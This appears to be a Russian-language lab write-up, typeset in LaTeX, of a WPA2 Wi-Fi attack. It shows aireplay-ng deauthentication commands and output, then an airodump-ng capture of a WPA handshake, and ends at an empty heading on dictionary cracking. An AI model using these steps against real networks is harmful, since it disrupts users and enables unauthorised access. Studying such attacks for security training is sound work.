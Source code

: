 \documentclass{article}
\begin{document}
\paragraph{Произвести деаутентификацию одного из клиентов, до
тех пор, пока не удастся собрать необходимых для взлома аутенти-фикационных сообщений}
~

\begin{verbatim}
crazy-mini alex # aireplay-ng --ignore-negative-one --deauth 150 
-a 1C:7E:E5:39:26:F8 -h 7C:03:D8:98:4A:5C mon0
The interface MAC (C0:18:85:9E:54:0B) doesn't match the specified MAC (-h).
	ifconfig mon0 hw ether 7C:03:D8:98:4A:5C
21:27:51  Waiting for beacon frame (BSSID: 1C:7E:E5:39:26:F8) on channel -1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
21:27:51  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:52  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:52  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:53  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:53  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
\end{verbatim}

В результате перехватываем пакет handshake:

\begin{verbatim}
crazy-mini alex # airodump-ng mon0 --bssid 1C:7E:E5:39:26:F8 -c 6 
--write dump --ignore-negative-one
 CH  6 ][ Elapsed: 1 min ][ 2015-06-03 21:30 ][ WPA handshake: 1C:7E:E5:39:26:F
                                                                               
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH E
                                                                               
 1C:7E:E5:39:26:F8  -47 100      880      791    4   4  54e. WPA2 CCMP   PSK  11
                                                                               
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes     
                                                                               
 1C:7E:E5:39:26:F8  74:E5:43:65:15:F5  -32    0e- 1      0      645  18   
\end{verbatim}

\paragraph{Произвести взлом используя словарь паролей}
~
\end{document}
